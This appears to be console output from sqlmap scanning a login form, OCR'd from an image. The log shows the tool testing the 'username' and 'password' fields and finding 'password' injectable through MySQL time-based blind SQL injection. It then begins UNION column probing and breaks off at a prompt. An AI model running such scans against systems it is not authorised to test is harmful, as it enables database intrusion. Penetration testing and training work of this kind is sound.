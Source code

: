 ```
username' might not be injectable
[14:03:28] [INFO] testing for SQL injection on POST parameter '
username'
[14:03:28] [INFO] testing 'AND boolean-based blind - WHERE or HAVING clause'
[14:03:28] [INFO] testing 'Boolean-based blind - Parameter replace (original value)'
[14:03:28] [INFO] testing 'MySQL >= 5.1 AND error-based - WHERE, HAVING, ORDER BY or GROUP BY clause (EXTRACTVALUE)'
[14:03:28] [INFO] testing 'PostgreSQL AND error-based - WHERE or HAVING clause'
[14:03:28] [INFO] testing 'Microsoft SQL Server/Sybase AND error-based - WHERE or HAVING clause (IN)'
[14:03:28] [INFO] testing 'Oracle AND error-based - WHERE or HAVING clause (XMLType)'
[14:03:28] [INFO] testing 'Generic inline queries'
[14:03:28] [INFO] testing 'PostgreSQL > 8.1 stacked queries (comment)'
[14:03:28] [WARNING] time-based comparison requires larger statistical model, please wait. (done)                                                                                      
[14:03:28] [INFO] testing 'Microsoft SQL Server/Sybase stacked queries (comment)'
[14:03:28] [INFO] testing 'Oracle stacked queries (DBMS_PIPE.RECEIVE_MESSAGE - comment)'
[14:03:28] [INFO] testing 'MySQL >= 5.0.12 AND time-based blind (query SLEEP)'
[14:03:29] [INFO] testing 'PostgreSQL > 8.1 AND time-based blind'
[14:03:29] [INFO] testing 'Microsoft SQL Server/Sybase time-based blind (IF)'
[14:03:29] [INFO] testing 'Oracle AND time-based blind'
it is recommended to perform only basic UNION tests if there is not at least one other (potential) technique found. Do you want to reduce the number of requests? [Y/n] y
[14:03:30] [INFO] testing 'Generic UNION query (NULL) - 1 to 10 columns'
[14:03:30] [WARNING] POST parameter '
username' does not seem to be injectable
[14:03:30] [WARNING] POST parameter 'password' does not appear to be dynamic
[14:03:30] [WARNING] heuristic (basic) test shows that POST parameter 'password' might not be injectable
[14:03:30] [INFO] heuristic (XSS) test shows that POST parameter 'password' might be vulnerable to cross-site scripting (XSS) attacks
[14:03:30] [INFO] testing for SQL injection on POST parameter 'password'
[14:03:30] [INFO] testing 'AND boolean-based blind - WHERE or HAVING clause'
[14:03:30] [WARNING] reflective value(s) found and filtering out
[14:03:30] [INFO] testing 'Boolean-based blind - Parameter replace (original value)'
[14:03:30] [INFO] testing 'MySQL >= 5.1 AND error-based - WHERE, HAVING, ORDER BY or GROUP BY clause (EXTRACTVALUE)'
[14:03:30] [INFO] testing 'PostgreSQL AND error-based - WHERE or HAVING clause'
[14:03:30] [INFO] testing 'Microsoft SQL Server/Sybase AND error-based - WHERE or HAVING clause (IN)'
[14:03:30] [INFO] testing 'Oracle AND error-based - WHERE or HAVING clause (XMLType)'
[14:03:30] [INFO] testing 'Generic inline queries'
[14:03:30] [INFO] testing 'PostgreSQL > 8.1 stacked queries (comment)'
[14:03:30] [INFO] testing 'Microsoft SQL Server/Sybase stacked queries (comment)'
[14:03:30] [INFO] testing 'Oracle stacked queries (DBMS_PIPE.RECEIVE_MESSAGE - comment)'
[14:03:30] [INFO] testing 'MySQL >= 5.0.12 AND time-based blind (query SLEEP)'
[14:03:40] [INFO] POST parameter 'password' appears to be 'MySQL >= 5.0.12 AND time-based blind (query SLEEP)' injectable 
it looks like the back-end DBMS is 'MySQL'. Do you want to skip test payloads specific for other DBMSes? [Y/n] y
for the remaining tests, do you want to include all tests for 'MySQL' extending provided level (1) and risk (1) values? [Y/n] y
[14:03:54] [INFO] testing 'Generic UNION query (NULL) - 1 to 20 columns'
[14:03:54] [INFO] automatically extending ranges for UNION query injection technique tests as there is at least one other (potential) technique found
[14:03:54] [INFO] 'ORDER BY' technique appears to be usable. This should reduce the time needed to find the right number of query columns. Automatically extending the range for current UNION query injection technique test
[14:03:54] [INFO] target URL appears to have 3 columns in query
do you want to (re)try to find proper UNION column types with fuzzy test? [y/N] n
injection not exploitable with NULL values. Do you want to try with a random integer value for option '--union-char'? [Y/n] y
```